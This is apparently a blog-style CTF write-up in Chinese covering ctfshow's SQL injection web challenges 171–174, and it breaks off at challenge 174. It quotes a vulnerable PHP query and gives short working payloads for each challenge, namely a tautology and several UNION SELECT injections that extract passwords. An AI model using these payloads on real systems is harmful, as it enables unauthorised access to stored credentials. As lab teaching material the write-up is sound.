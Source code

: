 ```yaml
---
title: ctfshow web sql注入171-253
date: 2024-05-22 14:55:12
permalink: /pages/e9d443/
categories:
  - web
tags:
  - sql注入
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# ctfshow web sql注入171-253

参考:

- [ fushulingのblog](https://fushuling.com/index.php/2023/08/20/ctfshow%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%E4%B8%AD/)
- [ctfshow web入门 sql注入(超详解)201-250](https://blog.csdn.net/qq_50589021/article/details/119861887)

## web 171

```php
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;"
```

字符型注入。没有过滤，直接万能密码

```
1' or '1'='1
```

## web 172

用户名过滤了'flag'，flag的值在password字段里，联合查询

```
-1'union select 1,password from ctfshow_user2%23
```

## web 173

查询结果不能有flag，flag是username字段里的值，不查username就可以了。注意这题三个参数

```
1'union select 1,2,password from ctfshow_user3%23 
```

## web 174
